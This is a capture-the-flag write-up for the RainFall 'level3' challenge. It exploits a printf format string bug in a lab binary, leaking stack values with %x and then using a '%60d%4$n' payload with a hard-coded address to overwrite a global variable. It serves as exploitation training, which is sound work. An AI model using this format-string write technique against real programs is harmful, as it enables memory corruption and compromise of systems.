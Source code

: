 ```
 GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

This time we have a call to fgets, which is safe.

But right after a printf call, that directly uses the content of fgets as its format string (bad practice), and we can exploit that to change the value of the m global variable.

This variable can be found at address 0x804988c and needs to have  or 64 as value but is set as 0.

https://cs.boisestate.edu/~jhyeh/cs546/Format-String-Lecture.pdf

If we were able to choose our vaargs then we could impact them.
But printf doesn't care there isn't any vaargs

```
level3@RainFall:~$ ./level3
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 bfff000a
```

In order for the exploit listed above to work, we need to pass the m address as a printf argument, take note of its index, and have a modifier for said argument that will change its value, it's %n that will write to the param that must be a point, the number of bytes written, in that case 64

```
~$ python -c 'print("AAAA%x " * 20)'| ./level3
AAAA 200AAAA b7fd1ac0AAAA b7ff37d0AAAA 41414141AAAA 41782520AAAA 20414141AAAA 41417825AAAA 25204141AAAA 41414178AAAA 78252041AAAA 41414141AAAA 41782520AAAA 20414141AAAA 41417825AAAA 25204141AAAA 41414178AAAA 78252041AAAA 41414141AAAA 41782520AAAA 20414141
```

We can find by seeing 41414141AAAA that our input string is the fourth argument to be picked up by printf.

\x8c\x98\x04\x08
```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08 %x %x%x%x")'| ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```
It does work indeed, so now we need to print 64 chars, and to help us with this, there a printf flag that specifies wich argument should be use, eg : `%4$s` prints the fourth arg as a string, and `%60d%4$s` adds 60 padding to it

```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "%60d%4$n")'| ./level3
�                                                         512
Wait what?!
```
